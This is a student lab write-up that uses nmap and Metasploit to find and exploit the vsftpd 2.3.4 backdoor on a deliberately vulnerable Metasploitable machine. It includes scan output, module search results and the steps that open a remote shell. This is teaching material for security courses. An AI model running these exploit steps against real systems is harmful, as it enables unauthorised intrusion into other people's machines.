

# Lab 5 - Vulnerability Exploitation

## **Lab Preparation**

Ensure that both the Kali and the metasploitable machines are powered on and on the
same network. Verify connectivity between them by using the ping command.

 1. Run nmap against the metasploitable machine using the following command.

	- ```sudo nmap -sV <metasploitable IP> -vvv``` 

	- Make note of open ports and services.

	```
	PORT     STATE SERVICE     REASON         VERSION
	21/tcp   open  ftp         syn-ack ttl 64 vsftpd 2.3.4
	22/tcp   open  ssh         syn-ack ttl 64 OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
	23/tcp   open  telnet      syn-ack ttl 64 Linux telnetd
	25/tcp   open  smtp        syn-ack ttl 64 Postfix smtpd
	53/tcp   open  domain      syn-ack ttl 64 ISC BIND 9.4.2
	80/tcp   open  http        syn-ack ttl 64 Apache httpd 2.2.8 ((Ubuntu) DAV/2)
	111/tcp  open  rpcbind     syn-ack ttl 64 2 (RPC #100000)
	139/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	445/tcp  open  netbios-ssn syn-ack ttl 64 Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
	512/tcp  open  exec        syn-ack ttl 64 netkit-rsh rexecd
	513/tcp  open  login       syn-ack ttl 64 OpenBSD or Solaris rlogind
	514/tcp  open  tcpwrapped  syn-ack ttl 64
	1099/tcp open  java-rmi    syn-ack ttl 64 GNU Classpath grmiregistry
	1524/tcp open  bindshell   syn-ack ttl 64 Metasploitable root shell
	2049/tcp open  nfs         syn-ack ttl 64 2-4 (RPC #100003)
	2121/tcp open  ftp         syn-ack ttl 64 ProFTPD 1.3.1
	3306/tcp open  mysql       syn-ack ttl 64 MySQL 5.0.51a-3ubuntu5
	5432/tcp open  postgresql  syn-ack ttl 64 PostgreSQL DB 8.3.0 - 8.3.7
	5900/tcp open  vnc         syn-ack ttl 64 VNC (protocol 3.3)
	6000/tcp open  X11         syn-ack ttl 64 (access denied)
	6667/tcp open  irc         syn-ack ttl 64 UnrealIRCd
	8009/tcp open  ajp13       syn-ack ttl 64 Apache Jserv (Protocol v1.3)
	8180/tcp open  http        syn-ack ttl 64 Apache Tomcat/Coyote JSP engine 1.1
	```

	- Make note of what port VSFTPD service is running.

	VSFTPD is running on port 21.

 2. Start the Kali PostgreSQL service (which Metasploit uses as its backend) by
running the following command.

	- ```sudo systemctl start postgresql```

 3. Initialize the Metasploit PostgreSQL database by running the following command.

	- ```sudo msfdb init```

 4. Launch msfconsole

	- ```msfconsole```

 5. Check the database connectivity using the following command.

	- ```db_status``` (it should say connected).

 6. Explore the search command by typing "help search".

 7. Search for an VSFTPD exploit.

	- ```search type:exploit name:vsftp```

 8. How many exploits were found?

```
msf6 > search type:exploit name:vsftp

Matching Modules
================

   #  Name                                  Disclosure Date  Rank       Check  Description
   -  ----                                  ---------------  ----       -----  -----------
   0  exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03       excellent  No     VSFTPD v2.3.4 Backdoor Command Execution
```

 9. Select the found exploit by typing the following command.

	- ```use exploit/unix/ftp/vsftpd_234_backdoor```

 10. Review the options of the exploit by typing the following command.

	 - ```show options```

 11. Set the remote host and ports by using the following commands.

	 - ```set RHOSTS <Metasploitable IP Address>```

	 - ```set RPORT <VSFTPD port number>```

 12. Verify what payloads are available by using the "show payloads" command.

 13. How many payloads are available?

 13. There is one payload ```payload/cmd/unix/interact```

```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > show payloads
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::NAME
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:11: warning: previous definition of NAME was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::PREFERENCE
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:12: warning: previous definition of PREFERENCE was here
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: already initialized constant HrrRbSsh::Transport::ServerHostKeyAlgorithm::EcdsaSha2Nistp256::IDENTIFIER
/usr/share/metasploit-framework/vendor/bundle/ruby/3.0.0/gems/hrr_rb_ssh-0.4.2/lib/hrr_rb_ssh/transport/server_host_key_algorithm/ecdsa_sha2_nistp256.rb:13: warning: previous definition of IDENTIFIER was here

Compatible Payloads
===================

   #  Name                       Disclosure Date  Rank    Check  Description
   -  ----                       ---------------  ----    -----  -----------
   0  payload/cmd/unix/interact                   normal  No     Unix Command, Interact with Established Connection
```

 14. Run the exploit by using the following command.

	 - ```exploit```

 15. Once the shell is opened type ```hostname```, followed by ```ifconfig```. Include screenshot of output.


